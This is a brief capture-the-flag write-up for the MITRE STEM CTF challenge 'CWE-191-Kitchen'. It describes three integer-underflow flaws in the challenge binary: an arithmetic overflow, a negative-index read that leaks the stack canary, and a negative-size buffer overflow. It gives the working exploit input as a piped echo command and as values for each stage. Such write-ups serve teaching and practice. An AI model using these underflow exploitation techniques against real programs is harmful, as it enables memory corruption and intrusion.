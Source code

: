 # Write-up for CWE-191-Kitchen MITRE STEM CTF Challenge

The challenge is a set of three CWE-191 vulnerabilities. 

Vulnerability 1: Simple overflow to solve a generally impossible equation.
Vulnerability 2: A read vulnerability by overflowing and reading a negative index of an array. There
exists a large number (the stack canary to be specific) there that the computer isn't expecting.
Vulnerability 3: A write vulnerability by providing a negative number, and then performing a
buffer overflow.

Run the command:
```
echo -ne '876982858 0 -9223372036854775808 -1 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808 9223372036854775808' | ./cwe-191-kitchen-release
```
It may take a few times to get the correct random.

Or manually provide these for each vulnerability:
```
Vuln 1: 876982858
Vuln 2: 0 -9223372036854775808 (May take a few attempts to random correctly)
Vuln 3: sz: -1, and then 20 9223372036854775808s
```

9223372036854775808
